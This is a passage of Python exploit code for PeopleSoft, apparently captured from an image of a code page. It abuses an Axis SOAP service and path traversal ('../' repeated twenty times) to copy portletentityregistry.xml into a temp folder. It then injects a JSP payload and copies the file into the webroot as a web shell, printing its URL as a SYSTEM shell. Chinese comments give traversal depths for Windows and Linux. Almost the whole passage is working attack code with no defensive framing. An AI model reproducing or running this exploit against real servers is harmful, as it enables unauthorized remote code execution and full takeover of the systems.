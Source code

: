 ```py
                <item xsi:type="xsd:string">%s</item>
                <item xsi:type="xsd:string">%s</item>
                <item xsi:type="xsd:string">%s.war</item>
                <item xsi:type="xsd:string">something</item>
                <item xsi:type="xsd:string">-addToEntityReg</item>
                <item xsi:type="xsd:string"><![CDATA[%s]]></item>
            </api:in0>
        </api:main>
        </soapenv:Body>
        </soapenv:Envelope>
        """.strip() % (tmp_path, tmp_dir, tmp_dir, PAYLOAD)
        response = self.service_send(data)

    def build_shell(self):
        """Builds a SYSTEM shell.
        """
        # On versions >= 8.50, using another extension than JSP got 70 bytes
        # in return every time, for some reason.
        # Using .jsp seems to trigger caching, thus the same pivot cannot be
        # used to extract several files.
        # Again, this is just from experience, nothing confirmed
        pivot = '/%s.jsp' % self.random_string(20)
        pivot_path = self.war_path('PSOL') + pivot
        pivot_url = '/PSOL' + pivot

        # 1: Copy portletentityregistry.xml to TMP

        per = '/WEB-INF/data/portletentityregistry.xml'
        per_path = self.war_path('pspc')
        tmp_path = '../' * 20 + 'TEMP'   # 这是Windows下的情况
        # tmp_path = '../' * 2 + 'TEMP'  # Linux下具体的个数视情况而定？
        tmp_dir = self.random_string(20)
        tmp_per = tmp_path + '/' + tmp_dir + per

        if not self.service_copy(per_path + per, tmp_per):
            raise RuntimeError('Unable to copy original XML file')

        # 2: Add JSP payload
        self.service_main(tmp_path, tmp_dir)

        # 3: Copy XML to JSP in webroot
        if not self.service_copy(tmp_per, pivot_path):
            raise RuntimeError('Unable to copy modified XML file')

        response = self.get(pivot_url)

        if response.status_code != 200:
            raise RuntimeError('Unable to access JSP shell')

        o('+', 'Shell URL: ' + self.url + pivot_url)


class PeopleSoftRCE(AxisDeploy):
    def __init__(self, url):
        super().__init__(url)


def o(s, message):
    if colorama:
        c = COLORS[s]
        s = colorama.Style.BRIGHT + COLORS[s] + '|' + colorama.Style.RESET_ALL
    print('%s %s' % (s, message))

```